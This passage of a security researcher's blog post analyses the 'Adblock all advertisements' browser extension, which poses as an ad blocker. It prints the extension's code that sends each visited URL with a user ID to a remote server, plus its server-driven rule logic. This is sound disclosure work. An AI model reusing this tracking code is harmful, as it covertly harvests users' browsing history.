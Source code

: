 **Update** (2025-01-28): This article originally claimed that FlipShope extension was also malicious and listed this extension cluster under the name of its developing company, Technosense Media. This was incorrect, the extension merely contained some recognizable but dead code. According to Technosense Media, they bought the extension in 2023. Presumably, the problematic code was introduced by the previous extension owner and is unused.

### Spying on the users

Coming back to Adblock all advertisements, it is still clearly spying on its users, using ad blocking functionality as a pretense to send the address of each page visited to its server (code slightly simplified for readability):

```js
chrome.tabs.onUpdated.addListener(async (tabId, changeInfo, tab) => {
  if ("complete" === changeInfo.status) {
    let params = {
      url: tab.url,
      userId: await chrome.storage.sync.get("userId")
    };
    const response = await fetch("https://smartadblocker.com/extension/rules/api", {
      method: "POST",
      credentials: "include",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(params)
    });
    const rules = await response.json();
    …
  }
});
```

Supposedly, this code downloads a set of site-specific rules. This could in theory be legitimate functionality not meant to spy on users. That it isn’t legitimate functionality here isn’t indicated merely by the fact that the endpoint doesn’t produce any really meaningful responses. Legitimate functionality not intending to spy wouldn’t send a unique user ID with the request, the page address would be cut down to the host name (or would at least have all parameters removed) and the response would be cached. The latter would happen simply to reduce the load on this endpoint, something that anybody does unless the endpoint is paid for with users’ data.

### The bogus rule processing

Nothing about the section above is new, I’ve already written as much in 2023. But either I haven’t taken a close look at the rule processing back then or it got considerably worse. Here is what it looks like today (variable and function naming is mine, the code was minified):

```js
for (const key in rules)
  if ("id" === key || "genericId" === key)
    // Remove elements by ID
  else if ("class" === key || "genericClass" === key)
    // Remove elements by class name
  else if ("innerText" === key)
    // Remove elements by text
  else if ("rules" === key)
    if (rules.updateRules)
      applyRules(rules[key], rules.rule_scope, tabId);
  else if ("cc" === key)
    // Bogus logic to let the server decide which language-specific filter list
    // should be enabled
```
